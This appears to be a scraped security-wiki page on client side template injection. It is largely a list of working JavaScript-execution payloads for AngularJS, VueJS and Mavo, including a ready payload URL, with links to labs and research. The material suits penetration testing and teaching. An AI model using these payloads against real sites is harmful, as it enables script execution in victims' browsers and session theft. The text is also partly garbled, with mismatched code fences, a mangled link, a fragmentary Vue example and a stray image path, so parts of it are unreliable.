 # Client Side Template Injection (CSTI)


## Summary

It is like a [[ssti-server-side-template-injection/README.md|Server Side Template Injection]] but in the **client**. The **SSTI** can allow you to **execute code** on the remote server, the **CSTI** could allow you to **execute arbitrary JavaScript** code in the victim's browser.

**Testing** for this vulnerability is very **similar** as in the case of **SSTI**, the interpreter expects **a template** and will execute it. For example, with a payload like `{{ 7-7 }}`, if the app is **vulnerable** you will see a `0`, and if not, you will see the original: `{{ 7-7 }}`

## AngularJS

AngularJS is a widely-used JavaScript framework that interacts with HTML through attributes known as directives, a notable one being **`ng-app`**. This directive allows AngularJS to process the HTML content, enabling the execution of JavaScript expressions inside double curly braces.

In scenarios where user input is dynamically inserted into the HTML body tagged with `ng-app`, it's possible to execute arbitrary JavaScript code. This can be achieved by leveraging the syntax of AngularJS within the input. Below are examples demonstrating how JavaScript code can be executed:

```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->

```
```
You can find a very **basic online example** of the vulnerability in **AngularJS** in [[http://jsfiddle.net/2zs2yv7o/) and in [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression|http://jsfiddle.net/2zs2yv7o/]]

> [!CAUTION] > [[http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html|**Angular 1.6 removed the sandbox**]] so from this version a payload like `{{constructor.constructor('alert(1)')()}}` or `<input ng-focus=$event.view.alert('XSS')>` should work.

## VueJS

You can find a **vulnerable Vue** implementation in [[https://vue-client-side-template-injection-example.azu.now.sh|https://vue-client-side-template-injection-example.azu.now.sh/]]\
Working payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](<https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%7D>)

And the **source code** of the vulnerable example here: [[https://github.com/azu/vue-client-side-template-injection-example|https://github.com/azu/vue-client-side-template-injection-example]]

```html
<!-- Google Research - Vue.js-->
">aaa

```
```
A really good post on CSTI in VUE can be found in [[https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets|https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets]]

### **V3**

```
{{_openBlock.constructor('alert(1)')()}}
```
```
Credit: [[https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets|Gareth Heyes, Lewis Ardern & PwnFunction]]

### **V2**

```
{{constructor.constructor('alert(1)')()}}
```
```
Credit: [[https://twitter.com/cure53berlin|Mario Heiderich]]

**Check more VUE payloads in** [[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected|**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**]]

## Mavo

Payload:

```
[7*7]
[(1,alert)(1)]
{{top.alert(1\)}}

[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
test
lolxself.alert('lol')lolx

[[[javascript&':alert(1)']|test]]
[self.alert(1)mod1]
```
```
**More payloads in** [[https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations|**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**]]

## **Brute-Force Detection List**

[[https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt]]

